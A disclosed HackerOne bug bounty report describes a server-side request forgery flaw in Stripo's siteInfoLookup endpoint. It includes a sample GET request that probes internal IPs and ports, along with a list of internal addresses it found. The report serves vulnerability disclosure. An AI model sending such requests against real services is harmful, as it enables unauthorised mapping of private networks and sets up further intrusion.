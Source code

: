 # SSRF in /cabinet/stripeapi/v1/siteInfoLookup?url=XXX

## Report Details
- **Report ID**: 738553
- **URL**: https://hackerone.com/reports/738553
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-15T16:40:02.588Z
- **Disclosed**: 2019-12-18T10:23:14.982Z

## Reporter
- **Username**: eliel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
## Summary:
SSRF vulnerability allows mapping the internal network.

## Steps To Reproduce:
It is possible to run internal requests with the siteInfoLookup service.

```
GET /cabinet/stripeapi/v1/siteInfoLookup?url=http://10.0.0.100:8080 HTTP/1.1
Host: my.stripo.email
```

Based on the response we know if the ip / port is available or not.

The port is not accesible in that IP.
```
Content-Length: 0
```

The port is accesible in that IP.
```
Content-Length: 114 (>0)
```

## Supporting Material/References:
I was able to identify some internal IP address and open ports:
10.0.0.2:8080
10.0.0.3:8080
10.0.0.4:8080
10.0.0.5:8080 <- NOT ACCESIBLE

## Impact

It is possible to use this vulnerability to map the internal network.

## Attachments
No attachments

